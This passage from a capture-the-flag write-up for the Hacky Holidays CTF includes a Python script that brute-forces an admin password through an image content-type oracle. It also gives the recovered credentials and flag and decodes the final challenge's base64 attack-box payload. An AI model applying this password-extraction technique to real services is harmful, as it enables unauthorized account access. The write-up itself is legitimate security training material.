 ```python
                soup = BeautifulSoup(r.text, 'html.parser')
                results = soup.find_all('img',class_='img-responsive')
                x = results[2]
                url = 'https://hackyholidays.h1ctf.com'+ x['src']
                r2 = requests.get(url)
                if "Invalid content type detected" not in r2.text:
                  continue
                else:
                  password = password + i
                  print(password)
                  break

print("Here's you password:",password)
```

Script in action

{F1131632}

So we finally had the password also: s4nt4s_c__
When I tried this creds `grinchadmin:s4nt4s_c__` on the attack-box login portal, it was showing Wrong credentials, so I replaced the _ in the password , the correct password was: s4nt4sucks

{F1131143}
Now we are logged in

11th flag: `flag{07a03135-9778-4dee-a83c-7ec330728e72}`

---------------------------------------------------------------------------------------------------------------------------------------------------

**Final Day**

As in this screenshot you can down below the attacker server and a red button which say *Attack now*

{F1131143}

After clicking on the button this page opens up.

{F1131631}

This was the url: https://hackyholidays.h1ctf.com/attack-box/launch?payload=eyJ0YXJnZXQiOiIyMDMuMC4xMTMuMzMiLCJoYXNoIjoiNWYyOTQwZDY1Y2E0MTQwY2MxOGQwODc4YmMzOTg5NTUifQ== (all the 3 IPs had differe base64 token)

```json
eyJ0YXJnZXQiOiIyMDMuMC4xMTMuMzMiLCJoYXNoIjoiNWYyOTQwZDY1Y2E0MTQwY2MxOGQwODc4YmMzOTg5NTUifQ==

{"target":"203.0.113.33","hash":"5f2940d65ca4140cc18d0878bc398955"}
```

This code can be found on the source page, the text which was shown the above screenshot was fetched from here only.

```html
<script>
    var id = 0;
    function getData() {
        $.getJSON('/attack-box/launch/c7b528cc142a9fabf6cc31b569b1de52.json?id=' + id, function (resp) {
            $.each(resp, function (k, v) {
                $('div.response').append(v.content + '<br>')
                id = v.id;
                if( v.goto.length > 0 ){
                    window.location = v.goto;
                }
            });
        });
    }
    setInterval(function(){ getData(); }, 500);
```